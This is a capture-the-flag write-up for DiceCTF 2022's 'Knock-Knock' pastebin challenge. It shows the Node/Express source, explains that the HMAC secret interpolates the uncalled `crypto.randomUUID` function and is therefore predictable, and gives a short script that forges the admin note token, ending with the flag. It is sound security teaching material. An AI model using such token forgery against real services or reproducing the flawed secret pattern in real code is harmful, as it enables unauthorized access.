 ```yaml
---
layout: single
title: Knonk-Knock - DiceCTF 2022
excerpt: "Knock knock? Who’s there? Another pastebin!!"
date: 2022-2-07
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: 
categories:
  - ctf
  - web
tags:  
  - DiceCTF
  - cryptographic failures
  - insecure design
---
```


Knock knock? Who's there? Another pastebin!!

## Code Review | index.js

```js
const crypto = require('crypto');

class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}

const db = new Database();
db.createNote({ data: process.env.FLAG });

const express = require('express');
const app = express();

app.use(express.urlencoded({ extended: false }));
app.use(express.static('public'));

app.post('/create', (req, res) => {
  const data = req.body.data ?? 'no data provided.';
  const { id, token } = db.createNote({ data: data.toString() });
  res.redirect(`/note?id=${id}&token=${token}`);
});

app.get('/note', (req, res) => {
  const { id, token } = req.query;
  const note = db.getNote({
    id: parseInt(id ?? '-1'),
    token: (token ?? '').toString(),
  });
  if (note.error) {
    res.send(note.error);
  } else {
    res.send(note.data);
  }
});

app.listen(3000, () => {
  console.log('listening on port 3000');
});
```

Let's take it from beginning

#### Where flag is stored?
```js
const db = new Database();
db.createNote({ data: process.env.FLAG });
```
When the server starts a new Database object is created and also a note which contains the flag.
The flag is stored at `notes[0]` because `this.notes = [];` is an empty array consequently the flag will be stored at `notes[0]`.

#### Explain Constructor & createNote
```js
constructor() {
    this.notes = []; 
    this.secret = `secret-${crypto.randomUUID}`;
  }
```
```js 
  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }
```
At constructor we have an array notes and a secret key. At secret variable the secret key starts with `secret-` but the problem is ${crypto.randomUUID}. The UUID part does not use a random uuid as the secret but the function itself i.e. the secret value is known.


## Final Exploit
```js
const crypto = require('crypto');

function generateToken(id,secret) { 
    return crypto
      .createHmac('sha256', secret) 
      .update(id.toString()) 
      .digest('hex'); 
  }

var id = 0; // Flag id
var secret = `secret-${crypto.randomUUID}`;

console.log(secret);
console.log(generateToken(id,secret));

```

Now, run the nodejs script 

![](https://files.bitwarriors.net/images/knock-knock/knock.PNG)

and use the token  7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264 to grab the flag dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}.

![](https://files.bitwarriors.net/images/knock-knock/knock1.PNG)


